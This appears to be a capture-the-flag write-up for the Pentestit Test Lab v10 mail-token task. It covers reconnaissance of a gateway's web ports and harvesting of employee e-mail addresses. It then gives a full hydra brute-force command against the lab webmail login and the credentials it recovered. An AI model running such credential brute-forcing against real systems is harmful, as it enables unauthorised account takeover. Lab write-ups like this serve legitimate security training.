 ```yaml
---
title: Pentestit Test Lab v10 WriteUp - Mail Token
categories: ['CTF WriteUp']
tags: ['Hacking']
---
```




# Intro/Network
Lets look at the network diagram first:

![Image]({{ site.baseurl }}/images/testlabv10network.png)

Seems like a gray/whitebox lab, nice! Now to reach the internal networks we have to get past the gateway. After connecting to the VPN we can start attacking.



# Gathering Info
Since we can only attack the gateway, lets start gathering some info. Doing a quick nmap scan reveales the following open ports.

![Image]({{ site.baseurl }}/images/testlabv10gwnmap.png)

Usually, websites are a good start to get more info, lets check them out.


## Web on port 80
Accessing the website on port 80 brings me to their main homepage. I searched through it for a long time but couldnt find anything useful. After that I decided to continue to port 443.


## Web on port 443
Accessing the website on port 443 lead me to some kind of security blog. Searching the website for info, I found the following comment in the source:

```html
<!-- Alfred Modlin said use this template -->
```

hmm, looks like a employees name. maybe we can use that name later?

Searching further through the site, I found the following 2 emails on the contact site:

{% highlight html %}
Scott Locklear- s.locklear@gds.lab
Joshua Wise- j.wise@gds.lab
{% endhighlight %}

Now we know the e-mail format for the company! Combine that with the name found earlier, we possibly have another user: a.modlin@gds.lab!


## Web on port 8100
Moving on to port 8100, which looks like another webserver. Accessing the website itself brings me to a login-form of their webmail. Maybe we can bruteforce a users login via the login-form?



# Bruteforcing login
Since we want to try all possible users, ive added the found emails to a file named "users.txt". After that I started to bruteforce the login-form on http://192.168.101.9:8100/login/ with the following command:

{% highlight shell %}
root@DOS-Kali:~# hydra -v -t 16 -L users.txt -P /root/Desktop/wordlists/john.txt http-post://192.168.101.9:8100/login/
{% endhighlight %}

With success! We found the login for a.modlin:

{% highlight shell %}
[8100][http-post] host: 192.168.101.9 login: a.modlin@gds.lab password: justdoit
[STATUS] attack finished for 192.168.101.9 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
{% endhighlight %}

After logging in with the found credentials, I found 2 E-Mails with one of them containing the token. Task Done!
